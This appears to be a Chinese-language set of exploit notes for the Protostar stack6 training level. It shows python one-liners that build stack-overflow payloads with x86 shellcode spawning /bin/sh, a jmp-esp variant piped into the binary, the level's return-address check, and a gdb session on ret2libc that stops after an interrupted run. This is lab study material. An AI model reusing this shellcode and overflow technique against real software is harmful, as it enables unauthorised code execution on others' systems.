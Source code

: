 ﻿## protostar-stack6

直接覆盖栈上数据

## http://exploit-exercises.com/protostar/stack6



## 1.创建pattern文件判断返回地址位置。

```
gdb /opt/protostar/bin/stack6
python -c 'print ("\x41" * 76) + "\xcc\xcc\xcc\xcc" +("\x90" * 16)+("\x42" *120)'>/tmp/patt  

python -c 'print ("\x41" * 80) + "\xcc\xcc\xcc\xcc" +("\x90" * 16)+("\x42" *120)'>/tmp/patt1 

python -c 'print ("\x41" * 80)+ "\xc0\xfc\xff\xbf" +("\x90" * 16)+"\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+ ("\x90" * 50)' >/tmp/stack6

python -c 'print ("\x41" * 80)+ "\xc0\xfc\xff\xbf" +("\x90" *76)'>/tmp/stack6
```

## 2.对ret地址有限制

```
ret = __builtin_return_address(0);
16
17  if((ret & 0xbf000000) == 0xbf000000) {
18    printf("bzzzt (%p)\n", ret);
19    _exit(1);
20  }
```
## 3.ret2libc||format||rop

## 3.1 jmp esp
```
(python -c "print 'A'*80 + '\x1d\x9a\xe9\xb7' + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'";cat )| /opt/protostar/bin/stack6
```

## 3.1 ret2libc
top

```
gdb /opt/protostar/bin/stack6
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>...
Reading symbols from /opt/protostar/bin/stack6...done.
(gdb) p system
No symbol "system" in current context.
(gdb) set args ssssssssssssssssss
(gdb) r
Starting program: /opt/protostar/bin/stack6 ssssssssssssssssss
input path please: ssssssssssssssssssssssssssssss^C
```
